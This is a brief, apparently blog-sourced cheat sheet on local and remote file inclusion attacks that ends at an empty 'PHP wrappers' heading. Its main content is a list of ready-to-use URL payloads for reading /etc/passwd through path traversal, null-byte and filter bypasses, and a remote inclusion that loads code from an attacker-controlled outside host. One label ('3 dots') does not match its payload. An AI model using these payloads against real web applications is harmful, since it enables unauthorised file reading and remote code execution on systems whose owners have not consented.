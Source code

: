 ## File Inclsusion (LFI/RFI)

![](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

**What is File Inclusion  Attack?**

A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time.

**General Payloads**

```
http://vulnerable-web.com/index.php?page=../../../etc/passwd (Read /etc/passwd)
http://vulnerable-web.com/index.php?page=/etc/passwd (Read /etc/passwd)
http://example.com/index.php?page=/etc/passwd%00 (Read /etc/passwd) [Fixed in PHP 5.4 and later versions]
http://example.com/index.php?page=..././..././..././..././..././..././..././..././etc/passwd (Bypass ../ Filters)
http://example.com/index.php?page=../../../etc/passwd (3 dots in Linux)
http://example.com/index.php?page=http://attacker.net/eval.php.txt (Remote File Inclusion)
```

**PHP wrappers & protocols**

```

```

